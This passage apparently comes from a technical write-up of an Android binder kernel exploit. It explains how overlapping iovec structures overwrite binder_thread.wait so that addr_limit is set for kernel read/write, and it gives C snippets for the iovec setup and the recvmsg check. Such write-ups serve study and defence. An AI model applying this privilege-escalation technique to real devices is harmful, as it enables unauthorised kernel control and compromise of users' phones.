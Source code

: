 Interesting part is that our second iovec we are planned to write (0x8 * 4) == 32 bytes.

```c
iovecs[11].iov_base = (void *)0x41414141; // binder_thread->wait.head.prev
iovecs[11].iov_len = 0x8 + 0x8 + 0x8 + 0x8;
```

But we send (0x8 * 5) == 40 bytes (`sizeof(struct override_binder_thread_wait)`). The reason is first 32 bytes will be written to `binder_thread.wait` which is actually where **`iovecs[10].iov_len`** is. So we have to make sure we override the area with same data except override `iovecs[12].iov_base` with `addr_limit_ptr`.

The extra write which is `0xFFFFFFFFFFFFFFFE` will store that in `iovecs[1].iov_base` which is now `addr_limit_ptr`. 

**Red is where it have been replaced with override_binder_thread_wait**
![](/assets/img/2023-05-27-16-45-25.png)

#### (Parent) Unblocked recvmsg

```c
ssize_t bytes_received = recvmsg(sock_fd[0], &message, MSG_WAITALL);

ssize_t expected_bytes_received = iovecs[10].iov_len +
                                  iovecs[11].iov_len +
                                  iovecs[12].iov_len;

if (bytes_received != expected_bytes_received)
{
    err("\tbytes_received: 0x%lx, expected: 0x%lx", bytes_received, expected_bytes_received);
}

wait(nullptr);
```
